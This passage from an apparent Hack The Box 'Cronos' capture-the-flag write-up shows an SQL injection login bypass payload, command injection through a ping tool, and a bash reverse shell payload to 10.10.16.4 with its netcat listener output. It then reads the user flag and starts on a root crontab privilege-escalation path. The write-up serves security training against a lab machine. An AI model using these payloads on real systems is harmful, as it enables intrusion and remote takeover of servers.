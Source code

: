 Using ```username=%22admin%27+or+1%3D1%23+&password=admin%27+or+1%3D1%23%22``` as the payload, we are able to authenticate into the site. We are then redirected to a site that allows us to send ping/traceroute commands.

![Network tool](https://github.com/joelczk/writeups/blob/main/HTB/Images/Cronos/net_tool.png)

### Command Injection
Examining furthur, we realized that we can do command injection as well using the payload ```8.8.8.8;ls```

![Command Injection](https://github.com/joelczk/writeups/blob/main/HTB/Images/Cronos/command_injection.pngg)

Knowing that we can then use as ```8.8.8.8;/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4:4000 0>&1'```a payload to spawn a reverse shell

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4000       
listening on [any] 4000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.13] 38008
bash: cannot set terminal process group (1390): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<min$ python3 -c 'import pty;pty.spawn("/bin/bash")'                         
www-data@cronos:/var/www/admin$ export TERM=xterm
export TERM=xterm.
www-data@cronos:/var/www/admin$ stty cols 132 rows 34
stty cols 132 rows 34
www-data@cronos:/var/www/admin$ 
```

### Obtaining user flag
```
www-data@cronos:/var/www/admin$ cat /home/noulis/user.txt
cat /home/noulis/user.txt
<Redacted user flag>

```
### Privilege Escalation to root
From the LinEnum script, we realize that there is a php script running at /var/www/laravel/artisan that is being executed in the crontab. Furthur verification also proved that /var/www/laravel/artisan is a php script. Apart from that, we also realize that this crontab is being executed by the root user. 
```
[-] Crontab contents:
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1

www-data@cronos:/tmp$ file /var/www/laravel/artisan
```